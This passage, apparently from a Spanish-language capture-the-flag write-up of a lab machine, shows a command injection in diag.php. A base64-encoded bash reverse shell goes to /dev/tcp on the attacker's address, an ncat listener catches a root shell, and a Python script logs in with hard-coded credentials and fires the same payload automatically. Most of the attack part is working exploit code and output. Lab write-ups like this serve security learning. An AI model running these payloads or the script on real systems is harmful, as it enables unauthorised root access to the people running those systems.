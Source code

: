 ```text
xbytemx@laptop:~$ http --form http://10.10.10.105/diag.php "Cookie: PHPSESSID=ld7k5a627mvs32ge9246tn2857; path=/" check=$(printf "quagga;bash -i >& /dev/tcp/10.10.15.126/3001 0>&1" | base64)
```

Esperamos que carrier se conecte hacia nosotros:

```text
xbytemx@laptop:~$ ncat -lnvp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.105.
Ncat: Connection from 10.10.10.105:53914.
bash: cannot set terminal process group (5515): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Listo ya estamos dentro. Ahora tomemos la flag de user.txt

# `cat user.txt`
```text
root@r1:~# cat user.txt
```

# Reverse Shell, 2

Como muchos saben, conectarse a cada rato puede resultar algo aburrido de hacer una y otra vez, es por ello que realice el siguiente script en python para que me conecte cada que sea necesario. El único requerimiento es tener un ncat escuchando en el puerto 3001.

```python
#! /usr/bin/python

import requests,base64,netifaces

IP = netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr']
PORT = "3001"

payload="quagga; bash -i >& /dev/tcp/"+IP+"/"+PORT+" 0>&1"
encoded = base64.b64encode(payload)

session = requests.Session()
headers = {"Content-Type":"application/x-www-form-urlencoded"}

loginPost = {"username":"admin", "password":"NET_45JDX23"}
session.post("http://10.10.10.105/", data=loginPost, headers=headers)

diagPost = {"check":encoded}
session.post("http://10.10.10.105/diag.php", data=diagPost, headers=headers)
```
